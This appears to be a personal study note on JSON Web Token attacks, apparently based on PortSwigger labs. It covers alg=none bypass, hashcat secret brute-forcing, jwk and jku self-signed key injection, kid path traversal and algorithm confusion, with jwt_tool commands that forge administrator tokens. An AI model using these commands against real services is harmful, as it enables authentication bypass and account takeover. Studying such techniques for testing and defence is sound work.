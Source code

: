 # JWT : JSON WEB Token

standardized format for sending cryptographically signed JSON data between systems.
A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example.

    eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA

The header and payload parts of a JWT are just base64url-encoded JSON objects. The header contains metadata about the token itself, while the payload contains the actual "claims" about the user. For example, you can decode the payload from the token above to reveal the following claims:

    {
        "iss": "portswigger",
        "exp": 1648037164,
        "name": "Carlos Montoya",
        "sub": "carlos",
        "role": "blog_author",
        "email": "carlos@carlos-montoya.net",
        "iat": 1516239022
    }

# JWT auth bypass via flawed signature verification

Example, 

    {
        kid":"3601f8c8-61c2-403b-8f0f-6889d4853ffb",
        "alg":"none"
    }
change alg to none, and delete signature in the JWT

# Brute-force jwt to find password 

    hashcat -a 0 -m 16500 <jwt> <wordlist>

# Header injections 

According to specifications of JWT only `alg` header is mandatory, there are other headers that are used in JWT and attracts hackers. 
    
    jwk (json web key)
    jwu (json web url)
    kid  Provides an ID that servers can use to identify 

## Injecting self-signed JWTs via the jwk parameter
A JWK (JSON Web Key) is a standardized format for representing keys as a JSON object.
Example :

    {
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "typ": "JWT",
        "alg": "RS256",
        "jwk": {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
        }
    }

when it's like this, we generate out own RSA key pairs, and sign the JWT outselves.
using jwt_tools
take the token into jwt_tools.py

    python3 jwt_tool.py <JWT token> -X i -T

and then change the paramateres for the attack 
PS : watchout the KID needs to be the same in both fields

// to create own script helpful link 
https://ktor.io/docs/rsa-keys-generation.html#populating-the-jwks-json-file

## Injecting self-signed JWTs via the jku parameter

didn't understand how it works, but those are the main steps :

run the command 

    python3 jwt_tool <jwt> -X s -ju <url> -T

the script will generate a config that the url which is our server needs to return 
example :

    {
        "keys":[
            {
                "kty":"RSA",
                "kid":"jwt_tool",
                "use":"sig",
                "e":"AQAB",
                "n":"wnfych1Rg1lGvds211TCWv0t6lpxMJ4JQjqpihOETIozqGwz1tyJNSHXOUXD9Rj6xLPH0DjP8dI8_qvwRqE-EaLldSoGPjPuDEsKqNbcd4acCqnAmAlfj3c7LTvV42kMDZLD9olnVj5dUXEKnGYrSr1_BiQhGG4lqIoTaCTVBam1yI-Jnn-y63XH8sRb6BxR2Kj2FdMUqIwYpaSUokGQZSVhO6fK787yPrkTVqYlWkgn691BW5T_njdIZi6IpnhU1OeF4Z-DQYGFyzcsmxOfZMtLG1XXqiteRIHBs-4-orCKizUfN8QcJs2_fs9wFImhF3YQklVYlzU2LbOw3Kou9w"
            }
        ]
    }
So the URL need to be a server that return this respone with application/json in content-type, and then we can use the forged token to connect. 

## JWT authentication bypass via kid header path traversal

Some time the server to verify the value, it looks in a file using kid, the key for this attack, is to change the fil to ../../../../../dev/null and change the claims to do that with jwt_tool

    jwt_tool <jwt_token> -I -hc kid -hv '../../../../dev/null' -pc sub -pv 'administrator' -S hs256 -p ''  # for empty password

## algorithm confusion attack

algorithm confusion attack exists in a flow of the verify method, many libraries provide this function of verification. 

    function verify(token, secretOrPublicKey){
        algorithm = token.getAlgHeader();
        if(algorithm == "RS256"){
            // Use the provided key as an RSA public key
        } else if (algorithm == "HS256"){
            // Use the provided key as an HMAC secret key
        }
    }

Problems arise when website developers who subsequently use this method assume that it will exclusively handle JWTs signed using an asymmetric algorithm like RS256. Due to this flawed assumption, they may always pass a fixed public key to the method as follows:

    publicKey = <public-key-of-server>;
    token = request.getCookie("session");
    verify(token, publicKey);

In this case, if the server receives a token signed using a symmetric algorithm like HS256, the library's generic verify() method will treat the public key as an HMAC secret. This means that an attacker could sign the token using HS256 and the public key, and the server will use the same public key to verify the signature.

so to perform the attack we need : 

1. Obtain the server's public key
2. Convert the public key to a suitable format
3. Create a malicious JWT with a modified payload and the alg header set to HS256.
4. Sign the token with HS256, using the public key as the secret.

and to find the public key used, the standards recommand to use these endpoints :  `/jwks.json` or `/.well-known/jwks.json`

using jwt_tool the command will be the following 

    jwt_tool <jwt_token> -X k -pk <public_key.pem> -I -pc  sub  -pv administrator

to generate the pem file, install jwt editor in burp
then go to generate new RSA key , and copy the jsonfile file found in `/jwks.json` example : 

    {"kty":"RSA","e":"AQAB","use":"sig","kid":"4b87d66e-6cfa-41ab-b677-f4afd2a123dd","alg":"RS256","n":"k84FbNQguvNDChkDeyajY3jG9qWuSPPmpWwr92Q2hz8x9sHWHpWF_XTHlmKV4s7qD0i2Z-7W6Nkv7INnH1GlUiRWnEPTmcqfPJkbLRK9R4gB37OIVJFtouDyzGEdF36XJPy9tv6mM3iORs5KFBuP5py5DDX8GKotgJfKJV9uNE2z47gkIzgf_u-HcGCIABnFEUJ9ipqoL6XRbBaxfqD9q7fIsFNryyZrjInOXbnXSNnk0bOcxnrVtQRZ3DHkQyewBsP0KpnkfEErt_u38PP_Sek0EYdYi_aKNTmiuCRqLVYLRHfx0oJnztMarOaTvubWlM__POCrEJZi9qzGVhYQWQ"}

then export it into pem file ( need to find other methods to do it )

## Deriving public keys from existing tokens

seen the soutlion, it needs a docker file but i didn't understand how it did work :/  and i don't want to install docker and use a VM without understand it so skip it